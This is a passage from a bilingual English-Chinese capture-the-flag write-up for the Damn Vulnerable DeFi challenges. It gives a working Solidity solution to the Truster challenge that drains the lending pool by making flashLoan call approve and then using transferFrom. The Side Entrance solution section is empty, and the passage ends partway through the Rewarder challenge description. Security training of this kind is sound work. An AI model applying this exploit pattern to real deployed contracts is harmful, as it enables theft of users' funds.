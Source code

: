 The pool holds 1 million DVT tokens. You have nothing.  
该池持有 100 万个 DVT 代币。你什么都没有。

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.  
要通过此挑战，请将所有代币从池中取出。如果可能的话，在一次交易中。

### solved
观察代码可以知道这道题在`flashLoan`调用了其他合约里的代码`functionCall`与`call`一样，所以一个比较常见的方法就是调用`approve`，使我们可以任意操作这个合约的代币，在用transferFrom进行金额的转移即可。
```
function solve(
address token,
TrusterLenderPool pool,
address attack
) public {

uint256 poolBalance = IERC20(token).balanceOf(address(pool));

bytes memory byteApprove = abi.encodeWithSignature(
"approve(address,uint256)",
address(this),
poolBalance
);

pool.flashLoan(0, attack, address(token), byteApprove);
IERC20(token).transferFrom(address(pool), attack, poolBalance);

}
```

# Challenge #4 - Side Entrance  
挑战 #4 - 侧入口

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.  
一个令人惊讶的简单池允许任何人存入 ETH，并在任何时间点提取它。

It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.  
它已经有 1000 ETH 余额，并使用存入的 ETH 提供免费闪电贷来推广他们的系统。

Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.  
从余额 1 ETH 开始，通过从池中取出所有 ETH 来通过挑战。



### solved


# Challenge #5 - The Rewarder  
挑战 #5 - 奖励者

There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.  
有一个池子每 5 天为那些将 DVT 代币存入其中的人提供代币奖励。
